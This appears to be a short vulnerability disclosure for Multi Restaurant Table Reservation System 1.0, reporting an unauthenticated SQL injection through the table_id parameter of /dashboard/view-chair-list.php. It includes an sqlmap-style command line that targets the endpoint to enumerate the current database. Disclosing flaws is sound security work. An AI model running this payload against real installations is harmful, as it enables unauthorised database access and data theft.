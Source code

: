 # -Multi-Restaurant-Table-Reservation-System  
* Title: Multi Restaurant Table Reservation System 1.0 - 'table_id' Unauthenticated SQL Injection  
* Vendor Homepage: www.sourcecodester.com  
*  Software Link: https://www.sourcecodester.com/sites/default/files/download/janobe/tablereservation.zip  
* Version: 1.0  

* Description：  
The file view-chair-list.php does not perform input validation on the table_id parameter which allows unauthenticated SQL Injection.  
An attacker can send malicious input in the GET request to /dashboard/view-chair-list.php?table_id= to trigger the vulnerability.  

* sql payload:  
-u http://192.168.100.234//TableReservation/dashboard/view-chair-list.php?table_id=1 --batch --current-db  
![image](https://github.com/BigTiger2020/-Multi-Restaurant-Table-Reservation-System/blob/main/010.png)  
